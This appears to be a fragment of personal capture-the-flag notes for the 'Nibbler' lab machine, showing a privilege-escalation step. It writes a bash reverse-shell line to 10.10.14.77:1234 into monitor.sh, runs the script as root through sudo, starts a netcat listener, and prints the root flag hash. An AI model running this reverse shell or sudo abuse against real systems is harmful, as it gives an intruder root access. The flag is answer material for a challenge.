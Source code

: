 
![[Pasted image 20240605212613.png|700]]

```sh
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.77/1234 0>&1'" | tee -a monitor.sh
```
![[Pasted image 20240605212733.png|700]]

```sh
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```
![[Pasted image 20240605212953.png|700]]

```sh
nc -nvlp 1234
```
![[Pasted image 20240605213109.png|700]]
> [!root.txt]
> de5e5d6619862a8aa5b9b212314e0cdd